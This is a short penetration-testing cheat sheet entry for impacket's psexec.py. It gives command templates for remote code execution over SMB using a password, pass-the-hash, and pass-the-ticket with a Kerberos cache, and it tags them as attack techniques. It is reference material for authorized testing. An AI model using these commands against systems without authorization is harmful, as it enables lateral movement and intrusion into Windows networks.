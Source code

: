 # psexec (imp)

%  windows, impacket-exec, RemComSvc

## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py '<domain'>'/'<user>':'<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
psexec.py -hashes <hash> <user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service (using \pipe\svcctl via SMB)

```
export KRB5CCNAME=<ccache_file>; psexec.py -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <domain>/<user>@<target_name>
```

